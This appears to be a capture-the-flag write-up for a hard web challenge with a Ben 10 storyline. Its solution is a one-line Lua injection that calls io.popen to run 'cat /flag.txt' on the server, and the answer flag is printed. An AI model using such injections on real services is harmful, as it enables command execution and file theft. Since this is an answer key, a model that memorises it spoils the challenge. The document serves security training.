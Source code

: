 # Challenge 22

## Difficulty

Hard

## Title

itsyourap's Shield

## Description

Ben stumbled upon one of Vilgax’s hidden communication systems while searching for intel on his latest evil scheme. It looks like the system is more than just a simple communication system—it holds something valuable, something that could give Ben the information about Vilgax. But there’s a catch.

Vilgax, always one step ahead, has hidden a secret deep within the system, and it’s locked behind layers of protection. It seems the system’s administrator, "itsyourap," has gone to great lengths to keep the secret safe, making sure that no one can access it.

Ben needs your help to break through these defenses and uncover the truth. The question is, can you bypass the system's defenses before Vilgax's trap closes in?

Open the website here: [vilgaxsys.cynox.aotfiesta25.tech](https://vilgaxsys.cynox.aotfiesta25.tech)

## Solution

```lua
config.usermessages[n]["message"] = io.popen('cat /flag.txt'):read('*a')
```

## Flag

```text
cyn0x{l33t_lu4_inj3ct10n_h4x0r_th3_fl4g_r3tr13v3d_4ft3r_c0nf1g_3x3cut10n}
```
